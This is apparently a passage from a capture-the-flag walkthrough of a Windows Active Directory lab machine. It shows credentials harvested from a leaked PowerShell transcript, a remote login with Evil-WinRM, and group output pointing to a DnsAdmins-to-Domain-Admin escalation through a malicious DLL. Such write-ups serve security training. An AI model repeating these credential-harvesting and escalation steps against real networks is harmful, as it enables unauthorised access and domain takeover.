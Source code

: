       **********************
      PS>CommandInvocation(Out-String): "Out-String"
      >> ParameterBinding(Out-String): name="InputObject"; value="The syntax of this command is:"
      cmd : The syntax of this command is:
      At line:1 char:1
      + cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
      + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
      + FullyQualifiedErrorId : NativeCommandError
      cmd : The syntax of this command is:
      At line:1 char:1
      + cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
      + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
      + FullyQualifiedErrorId : NativeCommandError
      **********************
      Windows PowerShell transcript start
      Start time: 20191203063515
      Username: MEGABANK\ryan
      RunAs User: MEGABANK\ryan
      Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
      Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
      Process ID: 2800
      PSVersion: 5.1.14393.2273
      PSEdition: Desktop
      PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
      BuildVersion: 10.0.14393.2273
      CLRVersion: 4.0.30319.42000
      WSManStackVersion: 3.0
      PSRemotingProtocolVersion: 2.3
      SerializationVersion: 1.1.0.1
      **********************

   NOTE: Creds - ryan:Serv3r4Admin4cc123!

3. Login in as ryan and looking on his group membership we find that he's a part of DnsAdmins. Reading about this group
   there are a "feature" that allows privesc from DnsAdmin to Domain Admin - using malicious dll's.
    *Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all
      USER INFORMATION
      ----------------

      User Name     SID
      ============= ==============================================
      megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


      GROUP INFORMATION
      -----------------

      Group Name                                 Type             SID                                            Attributes
      ========================================== ================ ============================================== ===============================================================
      ..
      MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
      MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
      ..
